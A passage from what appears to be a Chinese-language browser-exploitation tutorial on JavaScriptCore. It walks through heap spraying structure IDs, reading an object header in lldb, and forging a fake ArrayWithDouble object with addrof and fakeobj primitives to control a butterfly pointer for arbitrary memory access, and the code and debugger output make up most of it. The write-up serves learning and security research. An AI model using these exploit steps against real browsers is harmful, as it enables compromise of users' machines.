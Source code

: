 ```
&gt;&gt;&gt; describe(spray[0])
Object: 0x108ab4390 with butterfly 0x8000dc058 (Structure 0x108a70f50:[Array, `{`a:100, p0:101`}`, ArrayWithDouble, Proto:0x108ac80a0, Leaf]), StructureID: 322
&gt;&gt;&gt; describe(spray[999])
Object: 0x108a14330 with butterfly 0x8000c3e08 (Structure 0x108a10e70:[Array, `{`a:100, p999:101`}`, ArrayWithDouble, Proto:0x108ac80a0, Leaf]), StructureID: 1321
&gt;&gt;&gt;
```

伪造的时候选取一个中间的值就可以了，其实这种方法还不是太稳，比较稳的做法是使用`instanceof`，不过只是练习就无所谓啦。

再看下spray出来的obj的header：

```
(lldb) x/2gx 0x108ab4390
0x108ab4390: 0x0108210700000142 0x00000008000dc058
```

header的数据就是`0x0108210700000142`，低四字节就是structrueID，高四字节就是flags，可以直接使用，可以认为这个flags表示的就是`ArrayWithDouble`（其实还包含了其他的信息）。伪造对象如下：

```
u32[0] = 0x200;
u32[1] = 0x01082107 - 0x10000;
var header_arrayDouble = f64[0];

victim = `{`
    fake_header:header_arrayDouble,
`}`;

victim_addr = f2i(addrof(victim))
hax = fakeobj(i2f(victim_addr+0x10))
```

```
&gt;&gt;&gt; describe(hax)
Object: 0x1089c83b0 with butterfly 0x0 (Structure 0x10894a3e0:[Array, `{`a:100, p189:101`}`, ArrayWithDouble, Proto:0x1089c80a0, Leaf]), StructureID: 512
&gt;&gt;&gt;
```

伪造对象成功之后，就可以进行进一步的操作了，现在可以通过`victim`控制`hax`的butterfly指向任意地址。但是现在有个问题，这个butterfly、必须是个合法的指针，然而我们是不可以通过正常方法往对象的属性写我们指定的指针的，唯一写指针进去的方法就是直接赋值一个对象。但如果对象是一个`ArrayWithDouble`，其实我们就可以通过写double的形式写一个double进去并伪造成指针，于是我们可以做以下的操作：

```
controller = spray[500];

victim = `{`
    fake_header:header_arrayDouble,
    fake_butterfly:controller
`}`;

victim_addr = f2i(addrof(victim));
hax = fakeobj(i2f(victim_addr+0x10));

hax[1] = 5.2900040263529e-310;
```
